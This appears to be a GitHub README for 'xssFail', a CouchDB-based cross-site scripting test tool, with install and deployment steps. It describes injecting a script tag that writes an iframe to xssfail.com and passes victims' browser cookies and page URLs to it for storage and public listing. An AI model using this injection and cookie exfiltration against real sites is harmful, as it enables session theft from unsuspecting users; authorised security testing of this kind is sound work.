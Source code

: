 ## Who is this project for?

If you know about [xss(Cross-site scripting)](http://en.wikipedia.org/wiki/Cross-site_scripting) vulnerability, and want to check whether you web app is secure enough, this project is for YOU!
There are 2 options:
1. Install standalone app to avoid losing sensitive data.
2. Use online app - [xssFail.com](http://xssfail.com)

## How does it work?

1. You inject script: <script src="..."></script>
into target text field and save it. Any text field could be used (Product name, User name, Login, Address etc.). Let's say you use "Product" field.
2. UserA opens page with list of products with product you've injected.
3. If html engine doesn't encode strings UserA will get javascript executed.
4. Injected javascript code writes (document.write) the following tag: 
    &lt;iframe src="http://xssfail.com/form?param1=&param2=&paramN=" /&gt;
where param1, param2, paramN - all information about UserA (including browser cookies, site url etc.)
5. After iframe is loaded it executes script which saves info from URL (param1, param2, param3) into CouchDb database.
6. You can go to xssfail.com and search for "WINNERS".

## How to install standalone app?

### Before you start

Before you start using this app, it's necessary to:
1. [Install CouchDB](http://wiki.apache.org/couchdb/Installation) v.1.1.x or greater. More info about couchDB [here](http://wiki.apache.org/couchdb/).
2. [Install CouchApp](http://couchapp.org/page/installing). More info about couchApp [here](http://couchapp.org/page/index).

CouchApps are web applications which can be served directly from [CouchDB](http://couchdb.apache.org).
This gives them the nice property of replicating just like any other data stored in CouchDB.
They are also simple to write as they can use the built-in jQuery libraries and plugins that ship with CouchDB.

### Deploying this app

Assuming you just cloned this app from git,
and you have changed into the app directory in your terminal, you want to push it to your CouchDB with the CouchApp command line tool, like this:

    couchapp push . http://name:password@localhost:5984/xss

If you don't have a password on your CouchDB (admin party) you can do it like this (but it's a bad, idea, set a password):

    couchapp push . http://localhost:5984/xss

If you get sick of typing the URL, you should setup a `.couchapprc` file in the root of your directory.
Remember not to check this into version control as it could have passwords in it.

The `.couchapprc` file should have contents like this:

    {
        "default" : {
          "db" : "http://localhost:5984/xss"
        }
      }
    }

Now that you have the `.couchapprc` file set up, you can push your app to the CouchDB as simply as:

    couchapp push

This pushes to the `default` as specified.

go to [http://localhost:5984/xss/_design/api/_views/index](http://localhost:5984/xss/_design/api/_views/index) to open default UI page
go to [http://localhost:5984/_utils](http://localhost:5984/_utils) to open database UI manager - [http://wiki.apache.org/couchdb/Getting_started_with_Futon](Futon)

